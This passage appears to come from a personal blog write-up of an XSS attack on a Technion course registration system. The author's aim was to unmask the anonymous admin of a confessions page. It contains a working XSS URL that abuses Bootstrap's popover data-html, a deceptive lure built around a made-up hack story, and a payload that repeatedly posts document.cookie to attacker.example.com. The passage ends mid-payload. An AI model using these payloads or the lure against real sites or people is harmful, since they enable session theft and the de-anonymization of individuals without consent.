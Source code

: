 [/mikdet.php?MK=014003&SEM=201801**_(payload)_**](https://michaelm.cf/rishum_xss_demo/mikdet.php?MK=014003&SEM=201801%3Cbutton%20id=%2214213-30-id%22%20data-html=%22true%22%20data-toggle=%22popover%22%20data-trigger=%22focus%22%20data-content=%22%3Cscript%3E%20alert(%27Cookie:%20%27%2Bdocument.cookie)%20%3C/script%3E%22%20autofocus%3E%3C/button%3E)

What happens is that the page runs the following line of code (among others): `$("#14213-30-id").popover();`. This call asks the Bootstrap library to find the element with id `14213-30-id`, and enable a popover tooltip for it. The tooltip data is read from element properties such as `data-content`. We used the `data-html` property, which allows the content to be parsed as HTML and put the `script` tag in there, which the browser has no way of knowing was going to be treated as HTML, thus bypassing the browser XSS protection.

# The Attack

So far so good, I have a working XSS attack that I can use. Now back to the main goal: finding the identity of the Technion Confessions admin. I thought about the most convincing confession I could write that would make the admin open a link that came with the text, and I remembered another web service of the Technion: the Technion staff poll system.

Basically, at the end of every semester, students are asked to rank their staff and provide feedback for their performance. The staff poll system allows a staff person to sign in and see his or her results. I figured that everybody would be curious to take a look at his or her staff persons' feedback. So I decided to tell a story that I hacked the staff poll system, and make a website that claims to display the feedback of every staff person.

The plan was to send a confession which describes the staff poll system hack that I made up and insert a link to a website that is supposed to give access to the hacked data. The link would lead to a mock website that I made, which will also include an XSS attack that I found to reveal the visitor's identity.

## The Attack - Exploiting the XSS

My first idea of exploiting the XSS was a classic one - to inject a script which sends the victim's cookies to the attacker's server. Turned out that this approach had one major downside - the course registration system sets the cookies with an expiry time of 30 minutes. That means that if the victim didn't log in to the system in the last 30 minutes (and he probably didn't), I won't get any meaningful cookies using this attack.

Having tried different options, I ended up with a multi-stage exploit with three attempts of de-anonymization of the victim.

## The Attack - Exploiting the XSS, Stage One

The staff poll information website that I made loads with a hidden frame which sends the cookies to an attacker's server by exploiting the XSS vulnerability. It does so by loading a frame of the course registration system with a payload similar to the following:

{% highlight html %}
<div id="14213-30-id"
    data-html="true"
    data-toggle="popover"
    data-trigger="hover"
    data-content="<script>
        if (!window._ATTACK_RAN) {
            window._ATTACK_RAN = 1;
            var url = 'https://attacker.example.com/';
            setInterval(function () {
                var data = document.cookie;
                if (data != window._LAST_COOKIE_VALUE) {
                    window._LAST_COOKIE_VALUE = data;
                    $.post(url, { x: data });
                }
            }, 100);
        }
        </script>"